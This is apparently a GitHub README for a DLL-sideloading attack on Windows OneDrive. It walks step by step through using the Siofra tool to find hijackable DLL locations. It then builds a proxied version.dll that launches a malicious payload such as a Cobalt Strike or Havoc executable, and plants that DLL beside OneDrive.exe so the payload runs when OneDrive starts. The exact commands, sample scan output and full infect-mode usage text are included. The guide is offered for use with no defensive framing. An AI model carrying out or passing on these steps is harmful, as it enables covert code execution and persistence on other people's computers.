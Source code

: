 # DLL-SIDELOADING
Dll sideloading using Exe or Dll
What We Need ?
- A malicious exe ( Like generated by Havoc, Cobalt-Strike or using a Dropper) Or a Dll
- A legit dll
- A vulnerable location according to dll to place the malicious one there ( We Can Find It Using The Same Tool).

- USAGE:
- Clone the repo or download zip. 
- First we have to find vulnerable location and binaries.
- For OneDrive the location of OneDrive.exe is ( C:\Users\mulware\AppData\Local\Microsoft\OneDrive\OneDrive.exe )
- Open Cmd go to the Siofra location
-  Use Command : Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f C:\Users\mulware\AppData\Local\Microsoft\OneDrive\OneDrive.exe 
- You will get the vulnerable location ( Example : 
- [!] Module Secur32.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\Secur32.dll (real path: C:\WINDOWS\system32\Secur32.dll)
- [!] Module VERSION.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\VERSION.dll (real path: C:\WINDOWS\system32\VERSION.dll)
- [!] Module WININET.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\WININET.dll (real path: C:\WINDOWS\system32\WININET.dll)
- [!] Module WTSAPI32.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\WTSAPI32.dll (real path: C:\WINDOWS\system32\WTSAPI32.dll)
)
- Make a folder ( For example named : dll-sideloading )
- Now copy the dll you want to proxy using the real path to the folder (for  example copy version.dll ( C:\WINDOWS\system32\VERSION.dll ) to the folder)
- Also place the malicious dll or exe in the folder
- Make a Sub-folder named output
- open cmd go to the siofra location 
- Use Command : Siofra64.exe --mode infect -f C:\Users\mulware\Desktop\DLL-sideloading\version.dll -o C:\Users\mulware\Desktop\DLL-sideloading\output\version.dll --payload-path C:\Users\mulware\Desktop\DLL-sideloading\malware.exe --payload-type process
- The Payload type = For exe ( process ) and for dll ( library )
- If successful you will get a malicious dll in output file
- Copy the malicious dll in the vulnerable location we find above ( For Example : C:\Users\mulware\AppData\Local\Microsoft\OneDrive\VERSION.dll )
- Now Run OneDrive.exe
- BOOM !

:::::::::OPTIONAL :::::::::

More Usage : 
- *] Siofra version 1.13 usage: Siofra64.exe --mode [Supported modes: "file-scan", "mem-scan" and "infect"] -v [Optional. Output verbosity level]
  -  Verbosity levels:
   -     0 - No output
    -    1 - Only critical success/failure status (default)
     -   2 - Additional status details for success/failure status, including discarded PEs
      -  3 - Everything
    - File scan mode:
     -   -f [File or directory to scan]
      -  -r [Optional. Recursive scan]
       - --signed [Optional. Process only signed binaries]
        - --delayload [Optional. Include delayload imports in dependency list]
        - --explicit-loadlibrary [Optional. Include potentially explicit imports in dependency list (these are *.dll strings which may have been called via LoadLibrary(Ex)A/W]
        - --auto-elevate [Optional. Scan only auto-elevate binaries]
    - Memory scan mode:
      -   --pid [Target process ID to scan. When not specified, a list of either 32 or 64-bit process names/PIDs will be enumerated (corresponding to either the 32 or 64-bit version of this tool)]
    - Any scan mode:
      -  --enum-dependency [Enumerate dependencies]
       - --show-unmapped-apiset [Optional. Include API sets which failed to map to a module from output (ignored by default)]
       - --dll-hijack [Enumerate DLL hijacking vulns]
       - --find-module [Optional. Scan dependencies for a specific module. Note that this excludes KnownDLLs]
    - Infect mode:
      -  -f [DLL file to infect]
       - -o [Output file]
       - --payload-path [Path of DLL to be loaded in to infected DLL at runtime, or path of executable to be launched at runtime]
       - --payload-type [The type of payload specified in the parasite payload path. This can be "process" (generally indicating a exe) or "library" (generally indicating a DLL)]

CREDITS : 
https://github.com/cys3c
        
